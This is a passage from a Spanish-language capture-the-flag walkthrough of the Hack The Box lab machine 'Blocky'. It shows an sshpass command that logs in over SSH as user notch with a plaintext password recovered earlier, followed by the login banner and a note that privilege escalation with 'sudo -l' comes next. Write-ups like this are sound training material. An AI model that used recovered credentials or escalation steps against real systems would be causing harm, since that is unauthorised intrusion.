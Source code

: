 Con la contrasela encontrada accedemos con ssh y el usuario notch.
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/blocky/nmap]
└─# sshpass -p '8YsqfCTnvxAUeduzjNSXe22' ssh notch@10.10.10.37
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Thu Jan 26 21:30:51 2023 from 10.10.14.14
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$ 
```
Una vez accedido solo listamos los archivos para elevedar privilegios con `sudo -l`, 
